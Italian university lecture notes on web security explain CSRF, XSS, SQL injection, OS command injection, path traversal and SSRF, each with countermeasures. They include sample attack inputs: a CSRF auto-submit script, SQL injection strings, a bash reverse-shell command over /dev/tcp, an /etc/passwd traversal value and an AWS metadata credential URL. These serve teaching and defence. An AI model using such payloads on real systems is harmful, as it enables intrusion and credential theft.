\chapter{Web Security}

\section{Attacchi lato Client}

Per comprendere gli attacchi lato client, dobbiamo partire dal livello di 
applicativo. Il protocollo HTTP è intrinsecamente \textit{stateless} (privo di stato): 
ogni richiesta è indipendente dalle precedenti. Per implementare logiche 
di stato (es. carrelli e-commerce, login), le applicazioni web delegano la 
gestione della sessione al browser dell'utente tramite \textbf{cookie}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo3/cookie.png}
    \label{fig:cookie}
\end{figure}

Al login, il server invia un header \textbf{Set-Cookie} contenente un 
identificativo di sessione univoco (\textit{Session ID}). Da quel momento, 
il browser allegherà automaticamente quel cookie a ogni successiva 
richiesta HTTP diretta a quel dominio.

Un cookie rappresenta un vero e proprio "passpartout". Se un attaccante 
riesce a sottrarlo (\textit{Cookie Theft}), ottiene gli stessi esatti 
privilegi dell'utente legittimo (\textit{Session Hijacking}).

\subsection{Cross-Site Request Forgery (CSRF)}

Il CSRF sfrutta proprio il meccanismo di invio automatico dei cookie da 
parte del browser. Il server vulnerabile riceve una richiesta HTTP valida, contenente il 
corretto cookie di sessione, ma non ha un modo nativo per distinguere se 
l'azione sia stata avviata intenzionalmente dall'utente (\textit{Same-site}) o 
forgiata in modo invisibile da un sito terzo (\textit{Cross-site}).

Procediamo ad illustrare la vulnerabilità attraverso un esempio: attacco al
servizio "Add-Friend" del social network Elgg. L'attaccante (Samy) vuole 
forzare la vittima (Alice) ad aggiungerlo agli amici senza il suo 
consenso.

Prima di forgiare la richiesta, Samy preliminarmente crea un altro account
su Elgg (chiamato Charlie), nell'account di Charlie invia una richiesta di
amicizia a Samy proprio per aggiungerlo alla sua lista degli amici; a questo punto,
attraverso tool di sviluppo web, Samy cattura la richiesta HTTP necessaria
per l'aggiunta di un nuovo amico.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo3/get.png}
    \label{fig:get}
\end{figure}

\begin{enumerate}
    \item Samy scopre che l'aggiunta di un amico avviene tramite una 
    richiesta GET: \textbf{GET /action/friends/add?friend=42} (dove 42 è 
    l'ID di Samy).
    \item Samy crea una pagina web malevola su un suo server (attacker32.com).
    \item In questa pagina, inietta il seguente payload JavaScript per forgiare la richiesta:
\end{enumerate}

\begin{lstlisting}
    <script>
    window.onload = function(){
        // Crea un form DOM invisibile
        var p = document.createElement("form");
        p.action = "http://www.seed-server.com/action/friends/add";
        p.method = "get";
        // Inserisce l'ID di Samy come parametro nascosto
        p.innerHTML = "<input type='hidden' name='friend' value='42'>";
        document.body.appendChild(p);
        p.submit(); // Sottomette automaticamente il form
    }
    <script>
\end{lstlisting}

Quando Alice (con la sessione attiva su Elgg) visita attacker32.com, il suo 
browser esegue il JS, invia il form a Elgg e, crucialmente, \textbf{allega il 
cookie di sessione di Alice}. Elgg elabora la richiesta credendola genuina.

\textbf{Mitigazioni CSRF}

\begin{itemize}
    \item \textbf{Referer Header}: Campo dell'intestazione HTTP che identifica l'
    indirizzo della pagina web da cui viene generata la richiesta. Un server può verificare se la
    richiesta proviene dalle proprie pagine oppure no. Tuttavia il campo Referer
    rivela parte della cronologia di navigazione, sollevando preoccupazioni
    in materia di privacy, motivo per cui è una contromisura non utilizzata.
    \item \textbf{SameSite Cookies}: Attributo dei cookie introdotto nei 
    browser moderni. Impostandolo su \textbf{Strict}, il browser si rifiuta di 
    inviare il cookie se la richiesta è innescata da un dominio di terze 
    parti. Se invece viene impostato su \textbf{Lax}, il browser invia il 
    cookie se la richiesta parte clickando un link, si rifiuta di inviarlo
    se la richiesta dovesse partire caricando un'immagine o frame.
    \item \textbf{Secret Token (Anti-CSRF Token)}: Il server incorpora un 
    valore randomico segreto e non predicibile in ogni form HTML (\textit{<input 
    type="hidden" name="\_\_elgg\_token" value="...">}). 
    Solo le richieste Same-site possono includere il valore segreto.
    Quando viene fatta una richiesta Cross-site, l'attaccante non può includere il token corretto,
    di conseguenza il server, non trovando il token, scarterà la richiesta.
\end{itemize}

Le contromisure \textbf{Referer Header} e \textbf{SameSite Cookies} vengono implementate dal
browser stesso proprio perchè il browser, a differenza del server, conosce
la differenza tra una richiesta Same-site e Cross-site. Il \textbf{Secret token} è
infatti l'unica contromisura che viene implementata dal server stesso e il
suo scopo è proprio quello di riuscire a distinguere le due tipologie di richiesta.

\subsection{Cross-Site Scripting (XSS)}

L'XSS è una vulnerabilità ancora più critica: mira a sovvertire direttamente 
la \textbf{Same Origin Policy (SOP)} iniettando codice JavaScript malevolo all'interno 
di una pagina fidata. Poiché il codice proviene (apparentemente) dal server 
fidato, il browser della vittima lo esegue conferendogli accesso totale al 
DOM e ai cookie del dominio.

Esistono due tipologie principali:

\begin{enumerate}
    \item \textbf{Reflected (Non-persistente)}: Nella versione Reflected 
    il codice dannoso non viene mai salvato sul server. Invece, viene 
    inviato al server e immediatamente "riflesso" (restituito) al browser 
    dell'utente all'interno della pagina web generata.
    L'attaccante trova una pagina web che accetta input dall'utente (come 
    una barra di ricerca o un modulo di login) e lo restituisce sulla 
    pagina senza prima averlo "sanitizzato" o codificato correttamente.
    L'attaccante crea un URL personalizzato che contiene il sito legittimo 
    ma include un payload dannoso (solitamente codice JavaScript) come 
    parametro. L'attaccante deve convincere la vittima a cliccare su quel 
    link specifico. Questo avviene spesso tramite email di phishing, 
    messaggi sui social media o nascondendo il link in un sito di terze 
    parti. Quando la vittima clicca sul link, il suo browser invia la 
    richiesta al server vulnerabile. Il server elabora la richiesta, 
    prende il payload dannoso dall'URL e lo inserisce direttamente nel 
    codice HTML della pagina di risposta. Il browser della vittima riceve 
    l'HTML e, poiché il codice dannoso si trova all'interno della risposta 
    di un sito di cui il browser si fida, il browser lo esegue.

    Illustriamo tale attacco tramite un esempio pratico: immaginiamo di avere
    un sito web con una funzione di ricerca, cerchiamo la parola "libri", l'URL
    potrebbe apparire così:
    \begin{gather*}
        \text{http://www.sitovulnerabile.com/search?q=libri}
    \end{gather*}
    La pagina web risponderà mostrando a schermo:
    \begin{gather*}
        \textit{Hai cercato: libri}
    \end{gather*}
    Se il sito è vulnerabile al Reflected XSS, un attaccante potrebbe 
    creare questo URL:
    \begin{gather*}
        \text{http://www.sitovulnerabile.com/search?q=<script>CodiceDannoso</script>}
    \end{gather*}
    Quando la vittima clicca su questo link, la pagina web mostrerà a 
    schermo (a livello di codice sorgente):
    \begin{gather*}
        \textit{Hai cercato: <script>CodiceDannoso</script>}
    \end{gather*}
    Il browser leggerà i tag \textit{<script>} e, invece di mostrare il testo, 
    eseguirà silenziosamente il codice dannoso in background.

    \item \textbf{Stored (Persistente)}: Il payload è salvato sul database 
    del server (es. nel profilo utente) ed eseguito ogni volta che una 
    vittima visita quella pagina. Questo è il caso del \textbf{Samy Worm} che ha 
    colpito \textit{MySpace}, propagandosi autonomamente sfruttando proprio questa 
    dinamica.

    L'attaccante inserisce un codice dannoso (solitamente JavaScript) in un 
    campo di input del sito web che salva i dati. Può essere un commento su 
    un blog, un post in un forum, la recensione di un prodotto, o la 
    biografia di un profilo utente. Il server web, non avendo dei filtri 
    di sicurezza adeguati per sanitizzare l'input, prende il codice così 
    com'è e lo salva nel suo database. Quando una vittima ignara visita la 
    pagina in cui è mostrato quel contenuto, il server le invia la pagina 
    web includendo il codice malevolo nascosto. Il browser della vittima 
    legge la pagina, trova il codice JavaScript e, credendo faccia parte 
    legittimamente del sito, lo esegue silenziosamente.

    La pericolosità dello Stored XSS risiede nel fatto che \textbf{la vittima non 
    deve cliccare su link sospetti o cadere in trappole di phishing}: le 
    basta visitare una pagina web del tutto normale e considerata sicura.

\end{enumerate}

\textbf{Mitigazioni XSS}

La filtrazione basata su \textbf{blacklist}, dunque rimuovere semplicemente 
la stringa \textit{<script>}, è destinata a fallire difatti l'autore del \textit{Samy worm} 
evase i filtri di MySpace sfruttando peculiarità del parser dei browser 
spezzando la stringa in \textit{<java$\backslash$nscript>}.

Analizziamo quindi alcune soluzioni reali al problema:

\begin{enumerate}
    \item \textbf{Encoding}: Non si tenta di rimuovere il codice, ma lo si
    disinnesca sostituendo i caratteri speciali HTML con le rispettive 
    entità (es. usando \textbf{htmlspecialchars} in PHP, che converte "\textbf{<}" in "\textbf{\&lt;}"). 
    Il browser tratterà l'input come un nodo testuale inerte, non come 
    codice da eseguire.
    \item \textbf{Content Security Policy (CSP)}: La CSP separa forzatamente 
    dati e codice impedendo l'esecuzione di JavaScript "inlined" all'interno 
    del file HTML. Il server invia un header HTTP come:
    \begin{gather*}
        \text{Content-Security-Policy: default-src 'self'; script-src 'self' *.example70.com}
    \end{gather*}
    In questo modo, anche se l'attaccante inietta un tag \textit{<script>}, 
    il browser della vittima valuterà l'header CSP e si rifiuterà di 
    eseguire il codice inline o da fonti non in "whitelist". Se si ha 
    necessità di includere script inline sicuri, la CSP permette di 
    autorizzarli rigorosamente solo associandovi un nonce crittografico 
    (\textit{<script nonce="hash\_segreto">}) generato dinamicamente dal 
    server ad ogni richiesta. Infine, altra possibilità è quella di specificare
    una politica basata sull'origine del codice: sarà consensito il codice
    proveniente dal proprio sito, example.com, e da Google ad esempio:
    \begin{gather*}
        \text{Content-Security-Policy: script-src 'self' example.com https://apis.google.com}
    \end{gather*}
\end{enumerate}

\section{Attacchi lato Server}

In questa parte andremo a focalizzarci sugli attacchi lato server: SQL 
Injection, OS Command Injection, Path Traversal e Server-Side Request 
Forgery (SSRF). Il filo conduttore di queste vulnerabilità è quasi sempre 
lo stesso: la pericolosa mescolanza tra dati non attendibili forniti 
dall'utente e il codice eseguibile, che altera la struttura logica prevista 
dal programmatore.

\subsection{SQL Injection}


La SQL Injection si verifica quando dati ostili provenienti dal client 
vengono inviati a un interprete (il database) e trattati come parte di un 
comando o di una query. Il problema architetturale alla base è 
l'interpolazione delle stringhe (\textit{String Interpolation}): i dati 
forniti dall'utente vengono concatenati testualmente al codice SQL, 
impedendo al parser del database di distinguere il dato dal comando. A tal 
proposito vediamo un esempio che riporta uno script PHP vulnerabile in cui
le variabili \textbf{\$\_GET['EID']} e \textbf{\$\_GET['Password']} vengono
iniettate in una query \textbf{SELECT}:

\begin{lstlisting}
    $sql = "SELECT Name, Salary, SSN FROM employee WHERE eid='$eid' and password='$pwd'";
\end{lstlisting}

Se l'attaccante inserisce come EID il valore \textbf{EID5002' \#}, la query risultante 
diventa: \textbf{WHERE eid='EID5002' \#' and password='...'}. Il singolo apice 
iniettato chiude la stringa, mentre il carattere \# dice al DBMS di ignorare 
il resto della riga (che includeva il controllo della password), permettendo 
il login bypass.

Un payload alternativo è \textbf{a' OR 1=1 \#}. Questo rende la clausola \textbf{WHERE} 
sempre vera (1=1), costringendo il database a restituire tutti i record 
della tabella.

Infine, nelle query di \textbf{UPDATE} o \textbf{INSERT}, l'attaccante 
può aggiungere attributi non previsti. Se il campo "nuova password" riceve 
il payload \textbf{paswd456', salary=100000 \#}, l'attaccante chiude il 
campo password e sovrascrive il parametro salary a suo vantaggio:

\begin{lstlisting}
    $sql = "UPDATE employee
    SET password='paswd456', salary=100000 #'
    WHERE eid='EID5000' and password='paswd123'";
\end{lstlisting}

\textbf{Mitigazioni SQL Injection}

In generale approcci basati sul \textbf{Filtering and Encoding} non sono molto efficaci; 
vediamo comunque qualche esempio: tutto ciò che non è una lettera sarà 
passato ad una fase di encoding “aaa'” → “aaa$\backslash$'”. Il backslash fa 
sì che tutto ciò che viene scritto dall'utente vada a finire effettivamente 
nel campo username; così facendo dunque i caratteri "'" e "\#" non daranno più
istruzioni verso al DB di chiudere una stringa o ignorare una parte della 
stringa SQL. Il linguaggio PHP ha un'estensione chiamata \textit{mysqli} che
ha un metodo utile proprio a questo scopo (\textit{mysqli::real\_escape\_string()}):

\begin{lstlisting}
    $eid = $mysqli->real_escape_string($_GET['EID']);
    $pwd = $mysqli->real_escape_string($_GET['Password']);

    $sql = "SELECT Name, Salary, SSN
    FROM employee
    WHERE eid='$eid' and password='$pwd'";
\end{lstlisting}

La soluzione definitiva è l'utilizzo dei \textbf{Prepared Statements}. Con questa 
tecnica, l'applicazione invia prima al database un template della query 
(canale del codice), usando dei placeholder (ad esempio "?"). Solo successivamente 
invia i parametri utente (canale dei dati) associandoli ai placeholder. 
Poiché il database conosce a priori la struttura logica del 
comando, i dati non vengono mai sottoposti a parsing come codice, 
neutralizzando l'attacco.

\begin{lstlisting}
    $sql = "SELECT Name, Salary, SSN <- Query template 
    FROM employee
    WHERE eid=? and password=?"; 
    $stmt = $conn->prepare($sql); <- Si invia il codice
    $stmt = $conn->bind_param("ss", $eid, $pwd); <- Si inviano i dati
    $stmt->execute(); <- Esecuzione
\end{lstlisting}

\subsection{OS Command Injection}

L'OS Command Injection avviene quando l'input dell'utente viene passato a 
una shell di sistema (es. Bash) senza un'adeguata sanitizzazione. L'uso di 
funzioni come \textbf{system()} in PHP è un vettore classico:
\begin{gather*}
    \text{system("ping " . \$\_GET['host']);}
\end{gather*}
dove il paramentro \textbf{\$\_GET['host']} è controllato dall'utente/attaccante!

La shell di sistema usa caratteri speciali per controllare il flusso di 
esecuzione, come ";" (separatore), "\&\&" (AND logico) o "||" (OR logico). 
Se un attaccante invia \textbf{example.com; malicious-command}, il sistema 
eseguirà regolarmente il ping e, subito dopo, il comando malevolo.
Tale vulnerabilità è particolarmente pericolosa in quanto permette all'attaccante
di ottenere accesso persistente invocando una reverse shell in bash:
\begin{gather*}
    \text{example.com; bash -c 'bash -i >\& /dev/tcp/127.0.0.1/12345 0>\&1'}
\end{gather*}

\textbf{Mitigazioni OS Command Injection}

Ancora una volta bisogna evitare la \textit{string interpolation} e fare uso
della \textbf{parametrizzazione}, passando il comando e i suoi argomenti 
come elementi separati di un array (ad esempio \textbf{subprocess.call(['ls', '-l', user\_input])}),
in modo che il sistema operativo tratti l'input utente esclusivamente come 
stringa argomento e non come comando da interpretare:

\begin{lstlisting}
    import subprocess
    user_input = "foo ; cat /etc/passwd"
    # Vulnerabile
    subprocess.call("ls -l {}".format(user_input), shell=True)
    # Non vulnerabile
    subprocess.call(['ls', '-l', user_input])
\end{lstlisting}
è infatti buona prassi evitare di utilizzare \textit{shell=True} in 
\textit{subprocess.call} in Python, anche se spesso nei forum di 
Stack Overflow molti utenti raccomandano di inserirlo.

\subsection{Path Traversal (File Disclosure)}

Il Path Traversal permette all'attaccante di leggere dati sul disco di una 
macchina. Un sito che permette di caricare dei file, sicuramente non 
dovrebbe permettere a chiunque di leggere i file sul disco. Per esempio 
un attaccante potrebbe voler leggere i file di configurazione 
(config.php, tomcat-users.xml, ecc).

Sfruttando la sintassi dei filesystem POSIX/Windows, un attaccante forza 
le funzioni di I/O (come \textit{open()}, \textit{fopen()}, \textit{file\_get\_contents()}) 
a uscire dalla cartella base ("web root") prevista dall'applicazione.

Il Path Traversal fa spesso uso della notazione "\textit{dot-dot}" del filesystem
dell'OS; l'exploit si basa infatti sull'iniettare stringhe "\textbf{../}", che
nei sistemi operativi puntano alla directory genitrice.

\begin{lstlisting}
<?php
    $template = 'blue.php';
    if( isset($_COOKIE['TEMPLATE']) ) {
        $template = $_COOKIE['TEMPLATE'];
    }
    include("/home/users/web/templates/" . $template);
?>
\end{lstlisting}

siccome la variabile cookie è controllata dall'attaccante, allora egli potrebbe
iniettare stringhe "\textit{dot-dot}":
\begin{gather*}
    \text{TEMPLATE="../../../../etc/passwd"}
\end{gather*}
Questo elude la root, naviga verso la root di sistema "\textbf{/}" e richiede 
il file delle password di Linux. Questo permette l'esfiltrazione di file 
di configurazione o la lettura del codice sorgente stesso.

\textbf{Mitigazioni Path Traversal}

Prima di parlare delle contromisure alla Path Traversal specifichiamo che sia
in Linux che in Windows abbiamo due forme per indicare il percorso di un file:
\textbf{forma canonica} e \textbf{forma non canonica}.

\begin{lstlisting}
            /var/www/../ = /var
        /var/www/../../ = /
    /var/www/../../etc/ = /etc/
/var/www/../../etc/passwd = /etc/passwd
\end{lstlisting}

A sinistra abbiamo forme NON canoniche, mentre a destra abbiamo le forme 
canoniche per indicare il percorso di un file; entrambe le forme puntano 
alla stessa risorsa ma lo fanno in modo diverso.

Parlando di contromisure, la principale è la \textbf{normalizzazione del path}, 
ossia convertire i percorsi in forma canonica. A tal fine ci viene in aiuto 
ad esempio la funzione \textit{realpath()} di PHP che converte i "../" nella 
loro destinazione assoluta; una volta convertito il path si possono fare i 
dovuti controlli per verificare che esso inizi esattamente con la directory
desiderata (ad esempio \textbf{str\_starts\_with(\$canonical, '/var/www/')}):

\begin{lstlisting}
<?php
    // converte "../../passwd" in "/etc/passwd"
    $canonical = realpath('../../etc/passwd');
    if(!str_starts_with($canonical, '/var/www/')) {
    // Path Traversal rilevato!
    }
?>
\end{lstlisting}

\subsection{Server-Side Request Forgery (SSRF)}

Nella SSRF, l'attaccante fornisce un URL all'applicazione web affinché il 
server stesso generi una richiesta HTTP verso quell'indirizzo per suo conto. 
Il problema sorge perché l'applicazione usa librerie come \textit{cURL} o \textit{urllib} 
di Python per fare fetch di risorse senza validare le destinazioni. Il 
server web agisce come un proxy involontario, permettendo all'attaccante, 
che dall'esterno non potrebbe accedere a macchine interne a causa di un 
firewall, di raggiungere la rete interna, amministrazioni di dashboard, 
DBMS, o servizi in cloud.

\textit{\textbf{Payload AWS IMDS}}: Si tratta di un attacco devastante che mira all'\textit{Instance Metadata Service} (IMDS) di 
Amazon Web Services, disponibile all'IP di link-local fittizio 
169.254.169.254. Sfruttando un'API vulnerabile che accetta URL 
(come in un plugin OAuth o l'upload di una foto), l'attaccante invia: 
http://169.254.169.254/latest/meta-data/iam/security-credentials/Admin-Role. 
Il server web farà la richiesta e restituirà le credenziali crittografiche 
(\textit{IAM security credentials}) della macchina.

\textbf{Mitigazioni SSRF}

Le SSRF sono notoriamente difficili da estirpare alla radice. L'approccio 
raccomandato consiste nel \textbf{validare l'URL inserito dall'utente 
confrontandolo con una whitelist} (lista di domini/IP esplicitamente permessi). 
È inoltre opportuno incapsulare le chiamate HTTP attraverso proxy interni 
sicuri che blocchino la risoluzione di indirizzi privati, oppure utilizzare 
librerie e client nati con scopi di sicurezza, come \textit{safeurl} in Go:

\begin{lstlisting}
config := safeurl.GetConfigBuilder().
                  setAllowedSchemes("https").
                  setAllowedIPs("10.10.100.101").
                  Build()
client := safeurl.Client(config)
resp, err := client.Get(untrusted)
if err != nil {
    // ERROR
}
\end{lstlisting}

La soluzione più suggerita è comunque utilizzare un proxy HTTP; sarà 
all'interno del proxy che andiamo a configurare la whitelist. Qui la 
whitelist non è presente all'interno della web application, bensì nel proxy 
stesso. Conviene dunque esternalizzare la gestione della whitelist proprio 
perchè spesso lo sviluppatore non ha visibilitá degli indirizzi IP con cui 
dovrá prima o poi interfacciarsi.